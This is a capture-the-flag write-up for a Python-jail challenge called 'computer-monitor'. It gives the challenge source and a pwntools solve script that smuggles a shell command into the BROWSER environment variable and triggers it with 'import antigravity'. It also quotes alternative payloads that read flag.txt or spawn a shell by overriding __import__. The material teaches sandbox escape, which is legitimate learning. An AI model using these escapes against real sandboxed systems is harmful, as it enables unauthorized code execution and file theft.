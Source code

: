 # computer-monitor

```
so i bought a computer monitor from the store recently for my computer but i think now i need to buy a new computer as well

nc challs2.pyjail.club 28684
```

Attachment:

```python
#!/usr/local/bin/python3

import sys
from os import _exit

sm = sys.monitoring
sm.use_tool_id(2, 'computer-monitor')

inp = input('> ')
code = compile(inp, '<string>', 'exec')

exit_hook = lambda *a: _exit(0)
sm.set_local_events(2, code, sm.events.BRANCH + sm.events.CALL)
sm.register_callback(2, sm.events.BRANCH, exit_hook)
sm.register_callback(2, sm.events.CALL, exit_hook)
exec(code, {}, {})
```

It attachs `BRANCH` and `CALL` hooks to our code. However, `import` is not restricted. Following [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/), we can get shell if we have access to environ and `import`:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs2.pyjail.club", 28684)
p.recvuntil(b"> ")
p.sendline(b"""import os;os.environ['BROWSER']='/bin/sh -c "cat flag.txt" #%s';import antigravity""")
p.interactive()
```

Flag: `jail{i_am_proto_your_security_is_my_motto_install_me_on_your_computer_to_protect_your_data_better_f6b37a6e6d0b0af2b5da77a61cd0af7c}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf): `import sys; sys.modules['__main__'].__dict__['_exit']=int; print(open('flag.txt').read())`. A similar solution by @Crazyman on Discord: `import __main__; __main__._exit = lambda *a: 0; f = open('flag.txt'); print(f.read())`.

@maple3142 on Discord provides another solution:

```python
import os
__builtins__["__import__"] = lambda *a, os=os: os.system("sh")
import x
```
